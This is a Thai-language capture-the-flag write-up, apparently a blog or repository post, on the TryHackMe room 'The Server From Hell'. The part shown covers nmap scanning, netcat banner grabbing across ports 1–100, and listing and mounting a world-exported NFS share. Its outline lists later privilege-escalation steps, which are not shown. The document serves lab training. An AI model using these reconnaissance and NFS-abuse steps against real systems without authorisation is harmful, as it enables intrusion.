






### ✨ บทนำ
The Server From Hell เป็นห้อง CTF สาย Linux บน TryHackMe ที่เน้นการเจาะระบบตั้งแต่การ enumerate พอร์ตซ่อน, เจอ misconfigured NFS share, crack ไฟล์ zip, ใช้ SSH key เข้าเครื่อง และยกระดับสิทธิ์ด้วย Linux capabilities จนได้ root shell

## 🎯 เป้าหมาย
- หาพอร์ต/บริการที่ “ซ่อน” ไว้และยืนยันพฤติกรรมด้วย `nc`
- ใช้ **NFS (2049/tcp)** ที่ misconfigured เพื่อ “ดึงกุญแจ SSH” ของผู้ใช้
- หลบออกจาก **IRB (Interactive Ruby)** ไปเป็นเชลล์จริง
- ใช้ **capabilities ของ /bin/tar** เพื่ออ่านไฟล์ต้องห้าม → ได้ hash ของ root
- Crack hash จนได้รหัสผ่าน → `su root` และเก็บ flag

# 🧠 TryHackMe - The Server From Hell

🟡 หมวด: CTF / Boot-to-Root  
🧩 ความยาก: Medium
🕵️‍♂️ โหมด: CTF แบบ Boot-to-Root
🧩 URL: The Server From Hell
👨‍💻 ผู้ทำ: Thanyakorn

---

## 📚 สารบัญ
- 🔎 1) Recon & Port Scan
- 🧵 2) Banner/Manual Check ด้วย `nc`
- 📦 3) NFS Enumeration & Mount
- 🔑 4) SSH ด้วยกุญแจที่ดึงมา
- 🧯 5) หลบออกจาก IRB → ได้ Bash จริง
- 🧗 6) Privilege Escalation ด้วย Linux Capabilities (tar)
- 🧨 7) Crack `/etc/shadow` → `su root`
- 🏁 8) สรุปเวิร์กโฟลว์ + บทเรียน

---

## 📌 ข้อมูลจากโจทย์
> “Start at port 1337 and enumerate your way. Good luck.”

## 🔍 1. Recon & Port Scan
เริ่มจากลองใช้คำสั่ง:
```bash
nmap -sC -sV -Pn <TARGET_IP>
```
- `-sC` → รัน Nmap Default Scripts (NSE) เพื่อหาข้อมูลลึก เช่น SSL cert, FTP anon, SSH key fingerprint
- `-sV` → ตรวจสอบเวอร์ชัน service
- `-Pn` → การทดสอบ service แม้ไม่รู้ว่า host ออนไลน์หรือไม่

❌ ปัญหา: การใช้ -sC จะทำให้ Nmap เรียกใช้ script เยอะมาก → แต่ละ script ต้องรอ response หรือ timeout จาก service → ทำให้ **สแกนช้า** โดยเฉพาะถ้าเจอพอร์ตเปิดหลายตัว

เพื่อความรวดเร็วใช้คำสั่ง:
```bash
nmap -sV -vv <TARGET_IP>
```


- ตัด `-sC` ออก → ไม่ต้องรัน NSE scripts → scan ไวกว่า
- ใช้ `-sV` เพียงอย่างเดียว → เน้นดู service และ version
- เพิ่ม `-vv` (very verbose) → ให้ Nmap รายงานผลทีละพอร์ตแบบ realtime ทำให้เห็นผลลัพธ์ “เร็วขึ้น” ถึงแม้เบื้องหลังยังสแกนอยู่

✅ แบบนี้เราจะได้ พอร์ตเปิด + service ที่รันอยู่ เร็วพอที่จะนำไปทำ banner grabbing/manual test ต่อ เช่น ใช้ nc

### ℹ️ วิเคราะห์ผลการสแกน
จากการสแกนพบว่ามีพอร์ตเปิดจำนวนมาก (20+ พอร์ต) นอกจากนี้ยังมีพอร์ตแปลก ๆ เช่น `10628`, `16000`, `2607`, `5001` ซึ่งอาจเป็น service พิเศษหรือ **honeyport** ที่ตั้งใจเปิดไว้ใน CTF หรือวางไว้เพื่อหลอก

## 📡 2. ตรวจสอบ Banner และ Web Services
> “Start at port 1337 and enumerate your way. Good luck.”

จึงลองใช้ nc เชื่อมต่อไปที่พอร์ต 1337:
```bash
nc <TARGET_IP> 1337
```



ผลลัพธ์ที่ได้:
```text
Welcome traveller, to the beginning of your journey
To begin, find the trollface
Legend says he's hiding in the first 100 ports
Try printing the banners from the ports
```

📌 จากข้อความนี้ สรุปได้ว่าเราต้อง **สแกนหาพอร์ต** (1–100) และลอง ดึง banner จากพอร์ตเหล่านั้น เพื่อหาว่า “trollface” ซ่อนอยู่ตรงไหน

## 🌐 3. สแกนพอร์ต 1–100 ตาม Hint
หลังจากได้รับ hint จาก port 1337 ใช้ `nc` เชื่อมต่อไปที่พอร์ต 1–100 ทีละตัว เพื่อดูว่ามีพอร์ตไหนที่ตอบกลับข้อความแปลก ๆ หรือไม่

📥 คำสั่งที่ใช้
```bash
nc <TARGET_IP> 1
nc <TARGET_IP> 2
nc <TARGET_IP> 3
nc <TARGET_IP> 4
```



📊 ผลลัพธ์
ทุกพอร์ตที่ลอง (1–4 ตามรูป) ตอบกลับมาลักษณะเดียวกัน:
```text
550 12345 00000000000000000000000000000000000000000000000000000000000000000000000000000000
```

📌 หมายความว่าต้องทำ enumeration **ครบทุกพอร์ตในช่วง** 1–100 เพื่อตามหาพอร์ตที่ซ่อนข้อความพิเศษ (“trollface”)

## 🌐 3.1 สแกนพอร์ต 1–100 อัตโนมัติ (Netcat script)
ไฟล์สคริปต์ Netcat.sh:
```bash
for i in {1..100}
do
  nc 10.201.52.151 $i
  echo "\n"
done
```
คำสั่งรัน:
```bash
bash Netcat.sh
```



ผลลัพธ์: แสดง banner/response ของแต่ละพอร์ต 1–100 เพื่อค้นหา message ที่ซ่อนอยู่ตาม hint

## 🌐 3.2 พบคำสั่งชี้พอร์ตจากการรันสคริปต์
ผลลัพธ์บางส่วน (banner ที่เด่น):
```bash
... go to port 12345 ...
```

เชื่อมต่อไปที่พอร์ต 12345:
```bash
nc 10.201.52.151 12345
```



ได้ข้อความ:
```text
NFS shares are cool, especially when they are misconfigured
It's on the standard port, no need for another scan
```

📌 ข้อความนี้น่าจะสื่อถึง
- มี NFS (Network File System) รันอยู่
- น่าจะมีการแชร์ไฟล์/ไดเรกทอรีบนเครื่องเป้าหมาย
- การตั้งค่าอาจไม่รัดกุม (misconfigured) — หมายความว่า share อาจอนุญาตการอ่าน/เขียน หรืออนุญาตให้ mount ได้โดยไม่ต้องพิสูจน์ตัวตน
- มันรันบนพอร์ตมาตรฐาน (2049) ดังนั้นไม่ต้องสแกนพอร์ตอื่น — “no need for another scan”

## 📂 4. ตรวจหาและเมานต์ NFS share
รันคำสั่ง:
```bash
showmount -e 10.201.52.151
```



ผลลัพธ์:
```text
Export list for 10.201.52.151:
/home/nfs *
```
ความหมาย: /home/nfs ถูก export ให้ทุกโฮสต์ (*) — เป็นการตั้งค่าที่เปิดกว้าง (potentially misconfigured).

จากนั้นสร้างโฟลเดอร์สำหรับเมานต์:
```bash
mkdir mount
```
เมานต์ share ไปยังโฟลเดอร์ mount:
```bash
mount 10.201.52.151:/home/nfs mount
```


